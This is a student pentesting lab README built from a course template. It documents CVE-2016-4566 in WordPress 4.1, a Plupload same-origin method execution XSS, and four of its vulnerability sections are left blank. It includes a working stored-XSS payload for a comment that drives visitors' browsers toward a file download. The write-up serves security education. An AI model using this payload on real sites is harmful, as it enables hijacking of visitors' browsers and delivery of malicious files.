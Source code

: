 # Project 7 - WordPress Pentesting

> Time spent: 5+ hours spent in total

> Objective: Find, analyze, recreate, and document **three to five vulnerabilities** affecting an old version of WordPress

## Test Environment

Created virtual environment in Docker.
  - [ ] GIF Walkthrough: 
  
		<img src="docker-wpVSkali.gif" alt="docker-wpVSkali Walkthrough">
		
## Pentesting Report

### 1. WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME) - CVE-2016-4566
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting (XSS)
    - Tested in version: 4.1
    - Fixed in version: 4.1.11 
  - [ ] GIF Walkthrough: 
  
		<img src="SOMExss.gif" alt="CVE-2016-4566 Walkthrough">
		
  - [ ] Steps to recreate: 
  
			As a logged in user, leaving a reply/comment to a post using the payload:
			
			```
				<button onclick="fire()">Click</button>
				<script>
				function fire() {
				open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
				setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
				}
				</script>	
			```
			
			
			After this comment posts sucessfully, any user that comes across the post will see a clickable button for the comment. If that user clicks the button, the XSS attack will execute and attempt to download a malicious payload from the attack. 
			
			
			In the gif walkthrough, my browser extentions sucessfully blocks the attack from downloading the file, but a user without the proper safeguards would be prompted to download a file. 
			
  - [ ] References:
    - [Link 1: wpscan] (https://wpscan.com/vulnerability/a82a6c6f-1787-4adc-84dd-3151f1edfd06)
	- [Link 2: cve.mitre] (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566)
	- [Link 3: wordpress.org] (https://wordpress.org/news/2016/05/wordpress-4-5-2/)
	- [Link 4: github/wordpress] (https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8)
	- [Link 5: gist.github] (https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e)
### 2. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)
- [wpVSkali] (https://github.com/0xrutvij/wpVSkali)


GIFs created with [ScreenToGif](https://www.screentogif.com).

## Notes

- Other notes:

## License

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
